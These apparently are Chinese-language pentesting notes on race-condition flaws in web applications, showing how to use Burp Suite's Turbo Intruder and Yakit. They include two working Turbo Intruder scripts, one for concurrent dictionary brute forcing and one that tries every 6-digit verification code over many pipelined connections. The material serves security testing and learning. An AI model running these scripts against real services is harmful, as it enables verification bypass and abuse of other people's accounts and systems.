 并发漏洞：在和数据库交互同一资源时，没有使用数据库事务，导致多个请求并发读取的某个数据的同一状态。(多线程条件竞争)
场景：关注、点赞、收藏、兑换码、积分兑换。
有20积分，同时兑换20积分和15积分的商品。
危害：无限制表插值，浪费资源，一码多用等。

^
## **turbo-intruder测试**
bp插件测并发漏洞，turbo-intruder插件。

<https://blog.csdn.net/m0_63421985/article/details/133899675>
<https://www.wangan.com/p/7fy7f444b121d0aa>
安装后右键请求包，扩展，就可以使用。
进入请求包页面，
在请求包中任意加变量%s：
如：在Host下方输入：x-req:%s
选择代码examples/race.py
代码中concurrentConnections值改为10。range(10)改为10。改成并发10
执行攻击代码。

^
查看并发结果，比较响应长度，是否有并发漏洞。

yakit:
![yakit并发](http://cdn.33129999.xyz/mk_img/yakit并发.jpg)
^
案例场景：
<https://blog.csdn.net/Gherbirthday0916/article/details/130639360>


^
## **并发爆破**
<https://sanshiok.com/archive/16.html>
对请求包参数有爆破变化的并发。

base.py 字典并发
```
def queueRequests(target, wordlists):
    # 初始化请求引擎
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,  # 并发连接数
                           requestsPerConnection=100,  # 每个连接的请求数
                           pipeline=False  # 管道模式
                           )

    # 逐行读取字典文件中的单词并构造请求
    for word in open('/usr/share/dict/words'):
        engine.queue(target.req, word.rstrip())  # 将请求添加到队列中

def handleResponse(req, interesting):
    # 处理从服务器接收到的响应
    # 如果响应状态码不是 404，则将请求添加到表中
    if req.status != 404:
        table.add(req)
```


%s爆破6位数验证码
```
from itertools import product


def brute_veify_code(target, engine, length):
    pattern = '1234567890'  # 用于生成字典的迭代对像

    for i in list(product(pattern, repeat=length)):  # product()接收多个迭代对像，然后生成一个笛卡尔积，repeat参数代表重复迭代对象次数。

        code = ''.join(i)

        engine.queue(target.req, code)


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,  # 指定目标的地址

                           concurrentConnections=30,  # 与服务器建立30条连接

                           requestsPerConnection=100,  # 每条连接同时发送100个请求

                           pipeline=True  # 开启管道(HTTP Pipelining)模式

                           )

    brute_veify_code(target, engine, 6)  # 根据验证码位数修改


def handleResponse(req, interesting):
    if 'error' not in req.response:  # 对response进行操作，不含有“error”的添加入表中
        table.add(req)
```

